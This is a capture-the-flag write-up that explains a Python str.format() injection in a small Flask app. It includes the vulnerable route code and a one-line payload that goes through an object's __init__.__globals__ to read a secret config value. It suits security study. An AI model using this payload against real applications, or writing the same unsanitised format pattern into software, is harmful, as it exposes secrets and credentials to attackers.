

# solution

This challenge is the vuln when the dev dont sanitize the input from users and we can take advanced of that to get the flag through .format() function in python. I find this site that give you information about this challenge. https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Take a look at source code:

```
CONFIG = {
 "SECRET": "DH{fake-fake-fake}"
}

class DataConfig(object):
    def __init__(self, name):
        self.name = name

def print_data(format_string, config_data):
    return format_string.format(config_data=config_data)

config_data = DataConfig("How can I get the flag?")

@app.route('/',methods=['GET'])
def page1():
    payload = request.args.get('body')
    sys.stdin = io.StringIO(payload)
    result = print_data(sys.stdin.readline(), config_data)
    return render_template('index.html', value=result)
```

I can give you an example about the format() function

```
format_string = "The data is: {config_data.name}"
config_data = DataConfig("How can I get the flag?")
result = print_data(format_string, config_data)

-> result: The data is: How can I get the flag?
```

Aright, so can we access globals by config_data objects like some SSTI payloads. So i create this payloads.

```
/?body={config_data.__init__.__globals__[CONFIG][SECRET]}
```

Exploiting config_data.**init**.**globals** gives you access to global variables like CONFIG, which can be used to get sensitive information in case of improper control.
<br>
